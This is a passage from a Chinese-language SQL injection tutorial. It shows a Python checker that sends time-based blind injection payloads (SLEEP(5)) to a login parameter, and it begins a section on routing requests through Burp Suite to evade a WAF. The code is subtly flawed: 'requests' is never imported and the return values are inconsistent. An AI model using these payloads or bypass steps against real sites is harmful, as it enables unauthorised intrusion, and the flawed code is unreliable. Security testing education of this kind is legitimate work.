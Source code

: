 如果响应时间超过设定的阈值（这里是4秒）则认为存在时间盲注漏洞。 这是因为正常情况下，请求的响应时间应该远小于5秒。



##### (4)使用示例

~~~
if check_time_based_injection("http://example.com/login", "username"):
    print("存在时间盲注漏洞！")
~~~

以下是完整的代码示例：

~~~python
import time

def check_time_based_injection(url, param):
    # 构造时间延迟负载
    payloads = [
        f"{param}' AND sleep(5) -- ",
        f"{param}' UNION SELECT SLEEP(5) -- "
    ]
    
    for payload in payloads:
        start_time = time.time()
        requests.get(url, params={param: payload})
        response_time = time.time() - start_time
        
        if response_time > 4:  # 阈值判断
            return True, f"检测到时间延迟: {response_time:.2f}s"
    return False

# 使用示例
if check_time_based_injection("http://test.com/login", "username"):
    print("存在时间盲注漏洞！")
~~~



#### 自动化代理测试（结合 Burp Suite）

**核心思想：**通过**代理服务器（如Burp Suite）**发送HTTP请求，测试目标URL是否存在SQL注入漏洞。因为某些目标系统可能配置了防火墙或WAF（Web应用防火墙），这些安全机制可能会阻止或限制直接的恶意请求。通过代理服务器，可以绕过这些限制。

假设目标Web应用的URL是 http://vuln-site.com/item，并且该应用配置了WAF，会阻止包含  ' OR 1=1 ’ 等恶意SQL语句的请求。那我们就要使用代理服务器去绕过WAF。具体分为四步：

##### (1)启动Burp Suite并配置代理

- 启动Burp Suite
  - 打开Burp Suite,选择“Proxy”选项卡，确保代理功能已启用。
  - 确保Burp Suite正在监听127.0.0.1:8080。

- 在你的浏览器中，配置代理设置，使其指向127.0.0.1:8080。

![屏幕截图 2025-07-28 160213](C:\Users\Tong\Pictures\Screenshots\屏幕截图 2025-07-28 160213.png)
